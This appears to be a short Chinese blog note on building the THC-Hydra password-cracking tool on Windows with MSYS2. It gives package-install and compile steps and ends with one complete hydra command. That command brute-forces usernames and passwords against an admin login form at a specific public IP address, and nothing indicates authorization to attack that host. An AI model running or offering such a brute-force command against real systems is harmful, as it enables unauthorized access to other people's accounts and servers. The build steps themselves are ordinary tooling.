 ```yaml
---
author: XhstormR
categories:
- Notes
date: 2019-03-01T14:11:28+08:00
title: 构建 hydra
---
```


<!--more-->

Updated on 2019-03-01

> [MSYS2](https://mirrors.ustc.edu.cn/help/msys2.html)
>
> [hydra](https://github.com/vanhauser-thc/thc-hydra/archive/master.zip)

## Step
```bash
D:\Work\Download\thc-hydra-master>

pacman -Syu
pacman -S --noconfirm --needed gcc make

./configure
make
make install

hydra -V -F -L username.txt -P password.txt -o ok.txt -t 20 'http-post-form://222.69.159.53:80/cm_admin/login.aspx:txtloginid=^USER^&txtpsw=^PASS^:F=password incorrect!:H=User-Agent\: wget'
```

## Reference
* 依赖：
  * msys-2.0.dll：[src](https://mirrors.ustc.edu.cn/msys2/msys/sources/msys2-runtime-2.11.2-1.src.tar.gz) | [bin](https://mirrors.ustc.edu.cn/msys2/msys/x86_64/msys2-runtime-2.11.2-1-x86_64.pkg.tar.xz)
* [MSYS2](https://www.msys2.org)
